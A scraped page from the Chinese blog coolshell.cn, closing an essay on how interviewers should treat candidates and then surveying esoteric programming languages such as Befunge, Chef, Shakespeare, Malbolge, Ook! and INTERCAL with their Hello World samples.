UID%3D0000098b1620714e%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_Mb6545bwWtW6AyFc5mZPtSLxS_LXw&amp;prev_fmts=0x0%2C1200x280%2C1447x764%2C704x280%2C130x600%2C1005x124&amp;nras=7&amp;correlator=4926606061515&amp;frm=20&amp;pv=1&amp;ga_vid=595882335.1684225301&amp;ga_sid=1684225301&amp;ga_hid=1531662578&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=3114&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=74&amp;eid=44759876%2C44759837%2C44773809%2C44759927%2C31074635%2C44772269%2C44788441%2C44789923&amp;oid=2&amp;psts=ABHeCvjUM6aWyMyNnqeiJOZKsefmn-_Hhc1FYHu-hNOXWxcUgMSZzl-jlzusITPU3XF4cz0tNyYMWjBAMjGB%2CABHeCvg8y-vkCHCtGuHfP0nKiHmZzBixk85KzddHBtdsZ25nBB7rnb_AJZ7sH-ZU1-pLaQvFXv5JA0pndBXZ9ZlXOlYsJibE9MIdCkfwWdYejB4t4hk%2CABHeCvgiOhcBLcnYsNNgAyijDYQVkpvPs36Y1oPlcqH3Jflce10ewmRB5UhlAu5NmKo2jLe9DgRTluF3N-rUPfJL90MY05kikEPVXnO0amBNQoh9-Wo%2CABHeCvhIrvLi4TamYViMye6iQxc0n3NEOMmFZy-1Yt_u1BWXrBETmRV6fTDyTNsuTGspePgOot6ugw9hY0XqFSfOdjYuF3MR&amp;pvsid=2492285898140816&amp;tmod=182273927&amp;uas=0&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F27&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=4&amp;uci=a!4&amp;btvi=4&amp;fsb=1&amp;xpc=L1i9BKW68m&amp;p=https%3A//coolshell.cn&amp;dtd=23363" data-google-container-id="a!4" data-google-query-id="CI2UzOC0-f4CFUsN5wodxyMD3w" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

另外，对于公司来说，**如果你招进来的人还不如已经有的人，作为一个公司，你又怎么能有更好的人让你的公司进步呢**？

所以，面试应该是向面试者学习的一个过程。当然，**如果你从他身上学不到什么，那么你就教他一些吧。这样，就算是面试不通过，面试者也会欣然接受的**。不然，让面试者产生一些负面情绪，出去说一些不好的话，也有损你和公司的形象。

#### 一些相关的点评

下面是我根据酷壳的一些[面试题的文章](https://coolshell.cn/tag/interview)后的回复、还有我朋友的经历，还有这篇有关豆瓣的产品经理的[这篇文章](http://www.douban.com/note/146145117/)的一些点评。大家可以看看我从这些地方看到东西靠不靠谱。

**酷壳的面试题中的答复**

先说酷壳的那篇“[火柴棍式的面试题](https://coolshell.cn/articles/3961.html)”，这个面试题其实很没什么意思。主要考查你对代码逻辑的了解程度。因为设置了回复可见答案，所以这篇文章的回复量达千把条。从回复中，我看到：

- 一些朋友想不出来就直接看答案了。我可以看出，有一些朋友习惯获得知识，而不习惯独立思考。甚至有畏难情绪，从另一方面来说，可以看出我国的教育还真不是一般的差。
- 一些朋友想不全。从这点来看，我觉得很正常，尤其是想出两种来的，我可以感觉到他们的努力思考了，可能还做了一些尝试。挺不错的。可惜我看不到你思考的方式，是在纸上画了画，还是编译了个程序跑了跑，还是别的什么。这样我会了解你更多。
- 一些朋友给出的答案中有错的。这说明了这类朋友可能不喜欢做测试，时常想当然，或是做事比较冲动，并不足够严谨。这么简单的程序，验证能花多少精力呢？
- 还有少数的朋友没有看明白题目要求。这说明了这类朋友太粗心了，在工作当中可能会表现为误解需求和别人的话。沟通有问题。

再说说那篇“[火车运煤](https://coolshell.cn/articles/4429.html)”的问题，这个面试题我觉得主要是看看大家的解题思路，表达能力。

- 首先，我很惊喜有人很快就用数学做了解答，很不错，这个人的数学功底很不错。能用数学解题的人一般来说都是算法比较强的人。
- 有人说抱怨我没有说火车可以调头回去，所以没有想到这样的方法。如果是在面试中我会做提示的。我不会因为你不知道调头这个潜规则而否定你的。当然，如果你能想到的话说明你的脑袋还是比较灵的。
- 还有很多人说他的方法比较土，只运了400吨煤，416吨的或333吨，一看就是没有看提示的，我觉得这些人能够通过独立思考找到方法，这类的人其实已经不错了。顺着这个思路优化也只是时间的问题了。
- 更可喜的是，我看到了有一些朋友在看到别人的更好的方法后和自己的方法进行了比较，并找到了为什么自己的方法不如他的原因。这样的人我认为是懂得“总结”和“比较”的，这样的人总是在不断地学习和改善自己的。
- 还有人说到了动态规划，如果是在面试的时候，我很想向这位朋友学习一下用动态规划来解这题。
- 还有朋友说到了火车调头只能在有站的地方。这个朋友一看要么就是搞需求分析的人，要么就是较真的人。需要进一步了解。但不管怎么样，这样的朋友的观察能力是很不错的。
- 还有一些朋友给出的答案是正确的。但是表达方面比较复杂，有些没有看懂。可见，解题 的能力是有的，只是表达能力还有待提高。

**豆瓣产品经理的面试**

再说说豆瓣上的[这篇文章](http://www.douban.com/note/146145117/)，那篇文章里，面试官问了一个比较大的问题，那是仁者见仁，智者见智的问题，并且面试官并不满意应聘者给出的答案，并在用其主观意识强加一些东西给应聘者，并不断地和应聘者纠缠。后来，面试官回复到“重点测了两个问题：一是判别事情的标准和方法；二是在多种PK下产品经理的压力反应”。

下面是我观察到的：

- 其一、这种似事而非的仁者见仁，智者见仁，一万人有一万个答案。所以，这种怎么答都可以的问题是很难有标准的，我认为豆瓣的面试官以这种问题来考查面试者的标准太有问题了。更好的问题是：比较一下新浪和twitter这两个产品。
- 其二、多种想法PK的压力反应。这点没有问题，如果有机会我想问问这位面试官，豆瓣产品经理们的PK各自的想法时是以这种纠缠的方式吗？如果是这样的话，那我很为你们担忧啊。
- 其三、很明显，应聘者不知道面试官想说什么，所以应聘者总是给出一些模棱两可的回答。回答得很政客，呵呵。
- 其四、问的问题都是一些假设性的问题，假设技术人员不可沟通。人家说了，还没有见过不能沟通的情况。结果还要继续追问。这样你既要观察不到你想要的，也搞得大家不愉快。更好的问题的：“请你给一个你和一个很难沟通的人沟通的示例”，或是当应聘者说了“坚持己见”的时候，也应该追问“能给一个你坚持己见的例子吗？”。
- 其五、整个面试过程完全是在谈一些虚的东西，就像天上的浮云，一点实实在在的东西都没有。比如下面这两个实实在在的问题：“你以前设计过什么产品？”，“你和你的技术团队是怎么合作的？”

这是一个完完全全失败的面试，这个面试官根本不懂面试，甚至工作方法也可能很有问题。也许他只是想找一个能够在工作中附和他的人。

**朋友的面试**

最后说说我那个朋友的面试，我的这个朋友学习能力很强，也很好专研，工作中解决了很多很困难甚至很底层的问题。他做软件开发时间并不长，但是他对这个行业很有热情，也很执着，并有着相当不错的技术功底。这天他遇到了一个面试官，根据朋友的描述，这位面试官，主要问题了三个问题，一个是关于异步的，一个是关于性能调优的，还有一个是关于学习能力的。

- 问到异步的问题，我这个朋友说到了多线程中的异步调用，但是他可能问的是网络或是业务中的异步，要不然就是Linux 内核中的异步，当然他也没有说清楚，但他很不满意我朋友的答案，并让我朋友回去多看看书。
- 问到性能调优的问题时，我这个朋友说了性能调优分三级，业务级，指令级和CPU级，并举例说了使用了一个叫VTune的性能分析工具。面试官却说原来你只懂Windows，有点不屑，并说他只会使用商业工具，更不屑。
- 当我朋友向他澄清问题时，面试官只是摇头，叹气。并在应聘者作答的过程中不断的打断对方。

我的看法如下：

- 对于异步来说，我认为这是一种设计或是一种想法，可能会有很多种不同的实现方式，在不同的场景中会有不同的用法。面试官并没有考查应聘者对异步方法的理解，也没有考查异步方法可以用来解决什么，异步方法的优势和劣势，等等。只是觉得应聘者没有给出他想要的答案。
- 对于性调优的问题，我认为应聘者的思路和知识都很不错，还有使用VTune的经验。无论使用Windows还是Linux，无论使用商业的还是开源的Profiler，很多东西都是相通的，怎么能够因为这个东西不对自己的口味而下结论。为什么不向人家学习一下VTune呢？使用工具只是操作技能啊。
- 面试官应该是用微笑来鼓励应聘者的，而不是用摇头和叹气，频繁打断对方也是一个相当不好的习惯。看来这个面试官很不能接受不同的东西。

这位有很不错的技术能力的人，看来并不适合做一个面试官，因为他面试的东西都只在知识层次，而且这位面试官有强烈的喜好和倾向，所以，他必然会错过那些有能力但并不合他口味的人。

哎，面对这样的面试官，大家伤不起啊！

（全文完）

# BT雷人的程序语言（大全）

#####  [2011年04月13日 ](https://coolshell.cn/articles/4458.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [61 条评论](https://coolshell.cn/articles/4458.html#comments) 62,812 人阅读

还记得以前本站的[BT雷人的程序语言](https://coolshell.cn/articles/1142.html)吗？除了那几个[Brainfuck](http://www.muppetlabs.com/~breadbox/bf/)，[LOLCODE](http://lolcode.com/)和[WhiteSpace](http://compsoc.dur.ac.uk/whitespace/index.php)，我以为这些是比较BT的语言，但是自从这两天我在网上看到一些（见文章最后的参考一节），我发现我错了，这个世界上，只有更变态，没有最变态。不相，你看看下面这些，简直变态到了极致啊。（下面的语言变态不分排名）

目录


[Befunge](https://coolshell.cn/articles/4458.html#Befunge)[Ook!](https://coolshell.cn/articles/4458.html#Ook)[TMMLPTEALPAITAFNFAL](https://coolshell.cn/articles/4458.html#TMMLPTEALPAITAFNFAL)[INTERCAL](https://coolshell.cn/articles/4458.html#INTERCAL)[HQ9++](https://coolshell.cn/articles/4458.html#HQ9)[PerlYuYan](https://coolshell.cn/articles/4458.html#PerlYuYan)[参考：](https://coolshell.cn/articles/4458.html#参考：)

#### Befunge

第一个变态语言[Befunge](http://quadium.net/funge/spec98.html)。[维基](https://en.wikipedia.org/wiki/Befunge)上面说——这门语言由Chris Pressey在1993年创造，本意为设计一种为难编译器的语言……结果马上出现了一批编译器。Befunge的代码是二维的。它用 < > v ^ 这四个符号来控制一个指针在代码中移动，指针经过一个字符或数字则把它压入一个栈，四则运算符号的功能就是弹出栈顶两个元素进行计算后把结果压回去。用 _ 和 | 来表示有条件的方向选择：当栈顶元素为0时向右（上）走，否则向左（下）走。& 和 ~ 分别用于读入数字或字符并压入栈，句号和逗号分别表示将栈顶元素作为整数或字符输出。最后以一个@符号表示程序结束。Befunge代码的注释不需要任何符号标明，你可以把注释写在程序的任何地方，只要运行时指针不会经过它就行了。

下面这段Hello World代码：

```
>              v
v  ,,,,,"Hello"<
>48*,          v
v,,,,,,"World!"<
>25*,@
```

下面一个是算圆周率的代码，非常的壮观：


```
aa*          v                  +------------------------+
vp*9920p*9930<                  | Pi generator in Bef-97 |
>:09a*pa*3/1+19a*p09a*g:09b*v   |                        |
v_@# g*b90 p*b910        < p<   | 7/2/1997, Kevin Vigor  |
>19a*g:+1-29b*p19a*g::09v       +------------------------+
v*a90g*b90*g*b91: _v#p*9<
>g-#v_ 2a*+\$  v  :$
>\1-aa*ga*+v  p
v1:/g*b92p*991:<  *
>9b*p29b*g*199*g\v9
v*b92p*aa-1g*990-<9
>g2-29b*p099*g1-:0^
v -9p*b92:%ag*991  <
>#v_ 299*g1+299*p>       ^
>09b*g:#v_$v
v93p*b90-1<
>9*g199*ga/+.v
v:g*992 <p*9 92-<
v_29b*g399*p ^
>09b*g:#v_v      1
vp*b90-1    < $      g
>199*g9#v_'9,v      *
>'0, >' ,299^</pre>
通常认为Befunge是第一个基于“二维控制流”的语言，后来衍生出的一大批类似的语言都是受的Befunge影响。例如PingPong语言就是把Befunge的四种箭头符号换成正反斜杠，控制指针移动方向90度旋转，起一个反弹的作用。
<h4>Chef</h4>
<a href="http://www.dangermouse.net/esoteric/chef.html" target="_blank">Chef</a>如其名一样“主厨”(<a href="http://en.wikipedia.org/wiki/Chef_(programming_language)" target="_blank">Wiki link</a>)，这门语言主要是为了让程序代码看起来像菜谱。这可以使得我们的<a title="食客还是大厨" href="https://coolshell.cn/articles/3589.html" target="_blank">程序员更像是大厨</a>了，呵呵。该语言于2002年由David Morgan-Mar推出，核心是栈操作，特征就是——一套完整的Chef代码就是一个菜谱，程序名就是菜名，变量声明就是罗列原材料，后面一系列栈操作，就是菜肴的制作方法。把程序编写比作调和鼎鼐，有点意思，家庭主妇（或者“准家庭主妇”）试试看，权且当作人生预习。

用Chef编写Hello World代码如下：（在其网站上还有一个<a href="http://www.dangermouse.net/esoteric/chef_fib.html" target="_blank">斐波拉契数的例子</a>）
<pre style="padding-left: 30px;">Hello World Souffle.

Ingredients.
72 g haricot beans
101 eggs
108 g lard
111 cups oil
32 zucchinis
119 ml water
114 g red salmon
100 g dijon mustard
33 potatoes

Method.
Put potatoes into the mixing bowl.
Put dijon mustard into the mixing bowl.
Put lard into the mixing bowl.
Put red salmon into the mixing bowl.
Put oil into the mixing bowl.
Put water into the mixing bowl.
Put zucchinis into the mixing bowl.
Put oil into the mixing bowl.
Put lard into the mixing bowl.
Put lard into the mixing bowl.
Put eggs into the mixing bowl.
Put haricot beans into the mixing bowl.
Liquefy contents of the mixing bowl.
Pour contents of the mixing bowl into the baking dish.

Serves 1.</pre>
代码解读——原材料名显然可以随便改成别的原料，哪怕用单个字母也可以，不过少了点趣味性，但原料前面代表数量的数字不能改，那是ASCII代码。接下来菜肴制作方法就是把一个个字母和符号（都是ASCII）压入栈（就是代码中的“Put XXX into the mixing bowl”，从最后一个感叹号开始压），最后再把你做的菜托出上桌。

顺便说下，David Morgan-Mar已经设计出8种非主流编程语言了，还有一个变态的操作系统<a href="http://www.dangermouse.net/esoteric/petrovich.html" target="_blank">Petrovich</a>。  参看这位大哥的——<a href="http://www.dangermouse.net/esoteric/" target="_blank">DM's Esoteric Programming Languages</a>（下面会介绍这位老大搞出来的语言）
<h4><strong>Shakespeare</strong></h4>
<a href="http://shakespearelang.sourceforge.net/" target="_blank">Shakespeare</a>语言正如其名，其要让你的程序像“莎士比亚”的剧本一样充满艺术气息。

这个语言于2001年由Karl Hasselstrom和Jon Aslund联合推出，Shakespeare的代码完全模仿莎士比亚的戏剧。它也是一个基于栈的程序语言，程序中出场的每一个人物都代表一个栈。Shakespeare的代码自由度很高，因此同一个程序你可以写出完全不同的代码出来。

Shakespeare的Hello World代码如下（就是一部比较完整的“罗密欧与朱丽叶”的戏剧，作好心理准备）。“剧本”内容很无聊，就是一帮人在莫名其妙地称赞某些东西，里头还有古英语词汇，莎翁要是见了，可能会吐血。这里面Hello World或其ASCII码体现在全剧时不时出现的“The difference between……”句里面，根据各指代物品的好坏（比如鲜花算好的，牛粪算坏的）代表各数字，再进行各种运算最后相减（“The difference”暗指减法），得出一个字母或符号的ASCII码表。发明这个语言的人真是BT啊。
<pre style="padding-left: 60px;">Romeo, a young man with a remarkable patience.
Juliet, a likewise young woman of remarkable grace.
Ophelia, a remarkable woman much in dispute with Hamlet.
Hamlet, the flatterer of Andersen Insulting A/S.</pre>
<pre style="padding-left: 30px;">Act I: Hamlet's insults and flattery.</pre>
<pre style="padding-left: 30px;">Scene I: The insulting of Romeo.</pre>
<pre style="padding-left: 30px;">[Enter Hamlet and Romeo]</pre>
<pre style="padding-left: 30px;">Hamlet:
You lying stupid fatherless big smelly half-witted coward!
You are as stupid as the difference between a handsome rich brave hero and thyself! Speak your mind!</pre>
<pre style="padding-left: 30px;">You are as brave as the sum of your fat little stuffed misused dusty old rotten codpiece and a beautiful fair warm peaceful sunny summer's day. You are as healthy as the difference between the sum of the sweetest reddest rose and my father and yourself! Speak your mind!</pre>
<pre style="padding-left: 30px;">You are as cowardly as the sum of yourself and the difference between a big mighty proud kingdom and a horse. Speak your mind.</pre>
<pre style="padding-left: 30px;">Speak your mind!</pre>
<pre style="padding-left: 30px;">[Exit Romeo]</pre>
<pre style="padding-left: 30px;">Scene II: The praising of Juliet.</pre>
<pre style="padding-left: 30px;">[Enter Juliet]</pre>
<pre style="padding-left: 30px;">Hamlet:
Thou art as sweet as the sum of the sum of Romeo and his horse and his black cat! Speak thy mind!</pre>
<pre style="padding-left: 30px;">[Exit Juliet]</pre>
<pre style="padding-left: 30px;">Scene III: The praising of Ophelia.</pre>
<pre style="padding-left: 30px;">[Enter Ophelia]</pre>
<pre style="padding-left: 30px;">Hamlet:
Thou art as lovely as the product of a large rural town and my amazing bottomless embroidered purse. Speak thy mind!</pre>
<pre style="padding-left: 30px;">Thou art as loving as the product of the bluest clearest sweetest sky and the sum of a squirrel and a white horse. Thou art as beautiful as the difference between Juliet and thyself. Speak thy mind!</pre>
<pre style="padding-left: 30px;">[Exeunt Ophelia and Hamlet]</pre>
<pre style="padding-left: 30px;">Act II: Behind Hamlet's back.</pre>
<pre style="padding-left: 30px;">Scene I: Romeo and Juliet's conversation.</pre>
<pre style="padding-left: 30px;">[Enter Romeo and Juliet]</pre>
<pre style="padding-left: 30px;">Romeo:
Speak your mind. You are as worried as the sum of yourself and the difference between my small smooth hamster and my nose. Speak your mind!</pre>
<pre style="padding-left: 30px;">Juliet:
Speak YOUR mind! You are as bad as Hamlet! You are as small as the difference between the square of the difference between my little pony and your big hairy hound and the cube of your sorry little codpiece. Speak your mind!</pre>
<pre style="padding-left: 30px;">[Exit Romeo]</pre>
<pre style="padding-left: 30px;">Scene II: Juliet and Ophelia's conversation.</pre>
<pre style="padding-left: 30px;">[Enter Ophelia]</pre>
<pre style="padding-left: 30px;">Juliet:
Thou art as good as the quotient between Romeo and the sum of a small furry animal and a leech. Speak your mind!</pre>
<pre style="padding-left: 30px;">Ophelia:
Thou art as disgusting as the quotient between Romeo and twice the difference between a mistletoe and an oozing infected blister! Speak your mind!</pre>
<pre style="padding-left: 30px;">[Exeunt]</pre>
<h4>BIT</h4>
<a href="http://www.dangermouse.net/esoteric/bit.html" target="_blank">BIT语言</a>也是 David Morgan-Mar 搞出来的。程序员在拥有访问所有数据的全部权限。这是一款强大的编程工具。在高级程序语言中，该工具可以操作这些令人费解的数据。

看看下面这段代码，其展示了BIT的强大之处——代码和注释的完美统一。（很像BASIC）
<pre style="padding-left: 30px;">LINE NUMBER ONE CODE READ GOTO ONE ZERO
LINE NUMBER ONE ZERO CODE VARIABLE ZERO EQUALS THE JUMP REGISTER GOTO ONE ONE
LINE NUMBER ONE ONE CODE READ GOTO ONE ZERO ZERO
LINE NUMBER ONE ZERO ZERO CODE VARIABLE ONE EQUALS THE JUMP REGISTER GOTO ONE ZERO ONE
LINE NUMBER ONE ZERO ONE CODE THE JUMP REGISTER EQUALS OPEN PARENTHESIS VARIABLE ZERO NAND VARIABLE ONE CLOSE PARENTHESIS NAND OPEN PARENTHESIS VARIABLE ZERO NAND VARIABLE ONE CLOSE PARENTHESIS GOTO ONE ONE ZERO IF THE JUMP REGISTER IS EQUAL TO ONE GOTO ONE ZERO ZERO ZERO IF THE JUMP REGISTER IS EQUAL TO ZERO
LINE NUMBER ONE ONE ZERO CODE PRINT ONE GOTO ONE ONE ONE
LINE NUMBER ONE ONE ONE CODE PRINT ZERO
LINE NUMBER ONE ZERO ZERO ZERO CODE THE JUMP REGISTER EQUALS OPEN PARENTHESIS VARIABLE ZERO NAND VARIABLE ZERO CLOSE PARENTHESIS NAND OPEN PARENTHESIS VARIABLE ONE NAND VARIABLE ONE CLOSE PARENTHESIS GOTO ONE ZERO ZERO ONE IF THE JUMP REGISTER IS EQUAL TO ZERO GOTO ONE ZERO ONE ZERO IF THE JUMP REGISTER IS EQUAL TO ONE
LINE NUMBER ONE ZERO ZERO ONE CODE PRINT ZERO
LINE NUMBER ONE ZERO ONE ZERO CODE PRINT ONE</pre>
当然，对于空格和换行符，显得太冗余了，去掉他们也没有问题。
<pre style="padding-left: 30px;">LINENUMBERONECODEREADGOTOONEZEROLINENUMBERONEZEROCODEVARIABLEZEROEQUALSTHEJUMPR
EGISTERGOTOONEONELINENUMBERONEONECODEREADGOTOONEZEROZEROLINENUMBERONEZEROZEROCO
DEVARIABLEONEEQUALSTHEJUMPREGISTERGOTOONEZEROONELINENUMBERONEZEROONECODETHEJUMP
REGISTEREQUALSOPENPARENTHESISVARIABLEZERONANDVARIABLEONECLOSEPARENTHESISNANDOPE
NPARENTHESISVARIABLEZERONANDVARIABLEONECLOSEPARENTHESISGOTOONEONEZEROIFTHEJUMPR
EGISTERISEQUALTOONEGOTOONEZEROZEROZEROIFTHEJUMPREGISTERISEQUALTOZEROLINENUMBERO
NEONEZEROCODEPRINTONEGOTOONEONEONELINENUMBERONEONEONECODEPRINTZEROLINENUMBERONE
ZEROZEROZEROCODETHEJUMPREGISTEREQUALSOPENPARENTHESISVARIABLEZERONANDVARIABLEZER
OCLOSEPARENTHESISNANDOPENPARENTHESISVARIABLEONENANDVARIABLEONECLOSEPARENTHESISG
OTOONEZEROZEROONEIFTHEJUMPREGISTERISEQUALTOZEROGOTOONEZEROONEZEROIFTHEJUMPREGIS
TERISEQUALTOONELINENUMBERONEZEROZEROONECODEPRINTZEROLINENUMBERONEZEROONEZEROCOD
EPRINTONE</pre>
<h4>Haifu</h4>
<a href="http://www.dangermouse.net/esoteric/haifu.html" target="_blank">Haifu</a>程序语言也是David Morgan-Mar 搞出来的。从命名上就可以看出来它是一个汉语拼音。正是如此，作者想使用东方的哲学来创造一种编程的语言。其中还有Yin（阴）和 Yang（阳）——相当于布尔变量中的True/False，当然，也有金（Metal）木（Wood）水（Water）火（Fire）土（Earth）。呵呵。
<ul>
  <li>Wood: tree, grass, cherry, oak.</li>
  <li>Fire: flame, ash, smoke, embers.</li>
  <li>Earth: soil, mountain, rock, plain.</li>
  <li>Metal: sword, iron, plough, knife.</li>
  <li>Water: rain, snow, river, ice.</li>
</ul>
自然出现了一张关系表：
<table border="1" cellspacing="0" cellpadding="3">
<tbody>
<tr>
<th>元素关系</th>
<th>操作</th>
</tr>
<tr>
<td>B 生A</td>
<td>A+B</td>
</tr>
<tr>
<td>B 克 A</td>
<td>A-B</td>
</tr>
<tr>
<td>B 怕 A</td>
<td>A/B</td>
</tr>
<tr>
<td>B 爱 A</td>
<td>A*B</td>
</tr>
<tr>
<td>B 就是 A</td>
<td>如果A和B都是阳，则是阳，否则是阴</td>
</tr>
</tbody>
</table>
<h4>Piet</h4>
David Morgan-Mar 发明的用位图编程的<a href="http://www.dangermouse.net/esoteric/piet.html" target="_blank">Piet语言</a>也是BT到了极致，你还记得前两的那个“<a title="我有一个Hello World的C++程序编译不过" href="https://coolshell.cn/articles/4170.html" target="_blank">我的hello world编不过去</a>”文章中的那个强人用windows的画图程序编程的例子吗？呵呵Piet完全是用位图编程的语言。

下面这个图片就是其Hello World的示例：
<p style="text-align: center;"><a href="http://www.topdesignmag.com/wp-content/uploads/2011/04/Piet_hello_big.png"></a></p>
<p style="text-align: left;">再看看斐波拉契数列的程序示例:</p>
<p style="text-align: center;"><a href="http://www.dangermouse.net/esoteric/piet/fibbig.gif"></a></p>
这里还有更多的示例：<a href="http://www.dangermouse.net/esoteric/piet/samples.html">http://www.dangermouse.net/esoteric/piet/samples.html</a>
<h4><strong>Malbolge</strong></h4>
<a href="http://www.lscheffer.com/malbolge.shtml" target="_blank">Malbolge语言</a>，是最早的一个以代码丑陋为目标而设计出的程序语言，你几乎不可能读懂Malbolge的代码。它共有8条指令，所有运算都基于3进制，控制程序流的唯一指令是无条件跳转。其是BenOlmstead在1998年引进公共领域的深奥程序语言，名称来源于“the eighth circle of hell in Dante’s Inferno”，之后更名为Malbolge。

这被认为是地狱级的编程语言。

看看它的Hello World程序：
<pre style="padding-left: 30px;"><code>('&%:9]!~}|z2Vxwv-,POqponl$Hjig%eB@@>}=<M:9wv6WsU2T|nm-,jcL(I&%$#"]V?Tx<uVtTRpo3NlF.Jh++FdbCBA@?]!~|4XzyTT43Qsqq(Lnmkj"Fhg${z@></code></pre>
<h4>Unlambda</h4>
关于<a href="http://www.madore.org/~david/programs/unlambda/" target="_blank">Unlambda语言</a>，David Madore是这个语言的发明人，他于1976年8月3日生于法国，其是法国-加拿大籍数学家和计算机科学爱好者）。在unlambda里，所有东西都是函数。基本操作就是S， K， 和I三个组合子。当然，unlambda也加入一些扩展，让程序稍微好些一点。
<pre style="padding-left: 30px;">kiss
     ksss
               kkk.H.e.l.l.o.,. .w.o.r.l.d.!
                        k
      k
  kss`k.*
```

#### Ook!

[Ook! 语言](http://www.dangermouse.net/esoteric/ook.html)也是David Morgan-Mar 发明的，与Brainfuck类似, 但用单词“`Ook！”`，“`Ook.`” 和“`Ook?`”代替。我们来看一个Hello World的一个示例：

```
Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook.
Ook. Ook. Ook. Ook. Ook! Ook? Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook.
Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook? Ook! Ook! Ook? Ook! Ook? Ook.
Ook! Ook. Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook.
Ook. Ook. Ook! Ook? Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook?
Ook! Ook! Ook? Ook! Ook? Ook. Ook. Ook. Ook! Ook. Ook. Ook. Ook. Ook. Ook. Ook.
Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook. Ook! Ook. Ook. Ook. Ook. Ook.
Ook. Ook. Ook! Ook. Ook. Ook? Ook. Ook? Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook.
Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook? Ook? Ook. Ook. Ook.
Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook? Ook! Ook! Ook? Ook! Ook? Ook. Ook! Ook.
Ook. Ook? Ook. Ook? Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook.
Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook? Ook? Ook. Ook. Ook.
Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook.
Ook. Ook? Ook! Ook! Ook? Ook! Ook? Ook. Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook.
Ook? Ook. Ook? Ook. Ook? Ook. Ook? Ook. Ook! Ook. Ook. Ook. Ook. Ook. Ook. Ook.
Ook! Ook. Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook.
Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook!
Ook! Ook. Ook. Ook? Ook. Ook? Ook. Ook. Ook! Ook.
```

下面是一些转换器和解释器：

- [Java Ook!-to-BrainF*** 和 BrainF***-to-Ook! 转换器](http://www.dangermouse.net/esoteric/Ook.java).
- [Ook! Ruby解释器](http://www.ruby-lang.org/en/raa-list.rhtml?name=RubyOok).
- [Ook! Python解释器](http://www.orakel.ntnu.no/~oyving/code/python/pook.py).
- [Ook!  .Net 编译器叫Ook#](http://bluesorcerer.net/esoteric/ook.html)
- [Ook! perl 解释器](http://search.cpan.org/search?module=Acme::Ook).

#### **TMMLPTEALPAITAFNFAL**

你没看错，上面这一排毫无意义的字母是一个语言的名称。它是The Multi-Million Language Project To End All Language Projects And Isn’t That A Fine Name For A Language的缩写。[TMMLPTEALPAITAFNFAL语言](http://p-nand-q.com/humor/programming_languages/tmmlpteal.html)没有固定的语法规则，每一天都是不同的语法。例如，2000年10月13日你可以使用DIV但不能使用MOD；到了10月14日时你可以使用MOD了但DIV又不能用了。因此，你今天写的程序运行起来完全正常，但是到了明天就无法编译了。下面是一个TMMLPTEALPAITAFNFAL的Hello World程序，当然现在已经无法编译了。

```
DECLARE CELL 100 AS READPOS
 DECLARE 10 AS NEWLINE
 WRITE CHAR NEWLINE
 COPY "Hello, World" TO CELL 0
 COPY 0 TO READPOS
 WHILE READPOS INDIRECT DO GOSUB 300
 WRITE CHAR NEWLINE
 RETURN
LINE 300: WRITE CHAR READPOS INDIRECT
 ADD 1 TO READPOS
 RETURN
```

#### INTERCAL

[INTERCAL语言](http://catb.org/~esr/intercal/)（[Wikipedia](https://en.wikipedia.org/wiki/INTERCAL)）全称是“Compiler Language With No Pronounceable Acronym”。自认为是“超级黑客”的人可以试试用这个语言写程序。由老牌黑客[Don Woods](https://en.wikipedia.org/wiki/Don_Woods) 和 [James M. Lyon](https://en.wikipedia.org/wiki/James_M._Lyon) 在1972年发明，其是用来讽刺当时的那些编程语言。今天 这个语言有两个版本，一个是由牛人[Eric S. Raymond](https://en.wikipedia.org/wiki/Eric_S._Raymond)维护的C-INTERCAL，另一个是Claudio Calvelli 维护的CLC-INTERCAL。（**注**：在自由软件启蒙阶段，[Eric S. Raymond](https://en.wikipedia.org/wiki/Eric_S._Raymond)以如椽之笔呼啸而出，其核心著作被业界成为”五部曲”：《黑客道简史》（A Brief History of Hackerdom）、 《大教堂和市集》（The Cathedral and the Bazaar）、《如何成为一名黑客》（How To Become A Hacker）、《开拓智域》（Homesteading the Noosphere）、《魔法大锅炉》（The Magic Cauldron）。其中最著名的当然还是《大教堂和市集》，它在自由软件运动中的地位相当于基督教的《圣经》。而用黑客们的话说，这是”黑客藏经阁”的 第一个收藏。）

来看看其Hello World的程序：

```
DO ,1 <- #13
PLEASE DO ,1 SUB #1 <- #238
DO ,1 SUB #2 <- #108
DO ,1 SUB #3 <- #112
DO ,1 SUB #4 <- #0
DO ,1 SUB #5 <- #64
DO ,1 SUB #6 <- #194
DO ,1 SUB #7 <- #48
PLEASE DO ,1 SUB #8 <- #22
